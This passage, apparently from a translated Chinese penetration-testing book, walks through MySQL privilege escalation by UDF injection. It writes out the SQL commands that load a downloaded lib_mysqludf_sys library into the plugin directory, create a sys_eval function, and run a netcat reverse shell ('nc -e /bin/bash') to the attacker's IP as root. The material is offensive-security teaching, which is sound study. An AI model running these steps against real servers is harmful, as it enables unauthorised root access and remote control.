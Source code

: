 MySQL 有一个名为**用户定义函数**（**UDF**）的功能；让我们看一种通过 UDF 注入获得根权限的方法。现在我们有两个选择：要么在受损系统上下载代码并进行编译，要么从[`github.com/mysqludf/lib_mysqludf_sys/blob/master/lib_mysqludf_sys.so`](https://github.com/mysqludf/lib_mysqludf_sys/blob/master/lib_mysqludf_sys.so)下载预编译代码。

![](img/9d3ff962-4dc2-4858-b2a6-1caa42393401.png)

一旦它被下载，我们就登录到数据库。通常，人们会将默认的 root 密码留空；或者，我们可以从运行在服务器上的 web 应用程序的配置文件中获取一个。

现在，我们创建一个表，并使用这些命令将我们的文件插入到表中：

```
create table <table name> (hello blob);
insert into <table name> values (load_file('/path/to/mysql.so'));
select * from <table name> into dumpfile '/usr/lib/mysql/plugin/mysqludf.so';
```

![](img/1b701a67-b90d-4d76-bc93-cb5affcf3b9a.png)

对于 Windows 系统，命令是一样的；只是到 MySQL 的路径会有所不同。

接下来，我们创建一个`sys_eval`函数，它将允许我们以根用户身份运行系统命令。对于 Windows，我们运行这个命令：

```
CREATE FUNCTION sys_eval RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
```

对于 Linux，我们运行这个命令：

```
CREATE FUNCTION sys_eval RETURNS integer SONAME 'mysqludf.so;
```

现在我们可以使用`sys_eval`来做任何我们想做的事情；例如，要进行反向连接，我们可以使用这个：

```
select sys_eval('nc –v <our IP our Port> -e /bin/bash');
```

![](img/61944af5-d653-46a7-9f81-e8248a267d63.png)

这将给我们一个作为系统根用户的反向 shell：

![](img/f4775e23-2507-4246-846b-476e26bb1e4b.png)
